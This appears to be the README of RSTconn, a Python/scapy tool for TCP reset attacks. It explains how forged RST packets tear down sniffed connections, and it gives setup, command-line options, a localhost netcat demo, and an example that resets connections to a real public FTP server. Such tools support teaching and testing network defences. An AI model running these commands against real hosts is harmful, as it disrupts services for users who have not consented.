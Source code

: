 RSTconn
-------

A TCPKill is a utility that implements a **TCP reset attack** for IPv4 and IPv6 written in python and scapy.

RESET is a flag in TCP packets to indicate that the connection is not longer working.
If any of the two participants in a TCP connection send a packet
contains such a RESET flag, the connection will be closed immediately.

Thus it can be use to attack TCP connections once the attacker can forge
TCP packets from any of the two parties if he or she know their IPs, ports
and the sequence number of current TCP connection.

The attack can be used to make certain users to fail to use certain
network services based on TCP if we know the information above.

In practice, we should eavesdrop the victims’ communications to get
their IPs, ports and the sequence number.

You can do it by filtering the TCP packets and find the newest packets that we want to attack.

We can sends a TCP packet with RESET flag and the IPs and ports of
source and destination are sniffed from victims. What’s more, the
sequence number will increase in TCP communication, its value should
be equal or lager than the ack value from the lastest packet the sender
received and in the window of receiver. So we should update it.
To ensure successful, we can send lots of packets with different
sequence number which is larger than the sniffed ack field.

Setup
-----

````
pip install rstconn
````

Usage
-----

````
rstconn kills network connections.

optional arguments:
  -h, --help            show this help message and exit
  --iface {lo,enp0s25,lxcbr0,docker0,br-d316e57def52,vethd4f41f0,veth6fa5336, ...}, -i {...}
                        Interface where to listen to
  --server-ip SERVER_IP, -sip SERVER_IP
                        IPv4 or hostname
  --client-ip CLIENT_IP, -cip CLIENT_IP
                        IPv4 or hostname
  --server-port SERVER_PORT, -p SERVER_PORT
                        Server port
  --packet-count PACKET_COUNT, -pc PACKET_COUNT
                        sends N RST packets
  --seq-jitter SEQ_JITTER, -sj SEQ_JITTER
                        Set seq_jitter to be non-zero in order to prove to yourself that the
                        sequence number of a RST segment does indeed need to be exactly equal
                        to the last sequence number ACK-ed by the receiver
  --ignore-syn, -is     if a Packet has SYN flag, not sending RST
  --window-size WINDOW_SIZE, -ws WINDOW_SIZE
                        Window size
  -d {CRITICAL,ERROR,WARNING,INFO,DEBUG}, --debug {CRITICAL,ERROR,WARNING,INFO,DEBUG}
                        Debug level, see python logging; defaults to INFO if omitted
  -m, --monitor         Just sniff traffic without sendin RST
  -v, --version         Print version and exit

````

RSTconn listens for the matching connections and than sends a
number of SYN/ACK and RST packets to the client to get the connection be killed.

The number of packets is configurable by `--packet-count`, `--iface` and
`--server-ip` and `--server-port` are related to the local server port to be listen on.

````
rstconn -i lo --server-ip 127.0.0.1 --server-port 8000 --packet-count 50
````

Demo
----

````
apt install netcat
````

- Setup TCP connection. In one terminal window run `nc -nvl 8000` to set up a server
- In another terminal window run `nc 127.0.0.1 8000` to connect to the server
- In a third window run `rstconn` to run our sniffing program

You should see the sniffing program log some output, send a RST packet, and the nc connection should be broken.

If you want to test rstconn in IPv6, use instead:

- `nc ::1 8000`
- `nc -nvl ::1 8000`
- `rstconn -i lo --server-ip "::1" --server-port 8000 -pc 33`

Usage examples
--------------

Reset connections to ftp.gnu.org
````
rstconn -i enp0s25 --server-ip ftp.gnu.org
````

on the client side we'll see
````
ftp> ls
421 Service not available, remote server has closed connection
````

without server/client ip, using only the port

````
rstconn -i lo --server-ip 127.0.0.1 --server-port 8000
````

Credits
-------

- https://gist.github.com/spinpx/263a2ed86f974a55d35cf6c3a2541dc2
- https://github.com/robert/how-does-a-tcp-reset-attack-work


References
----------

- Watson, P.: Slipping in the Window: TCP Reset attacks. (2004)
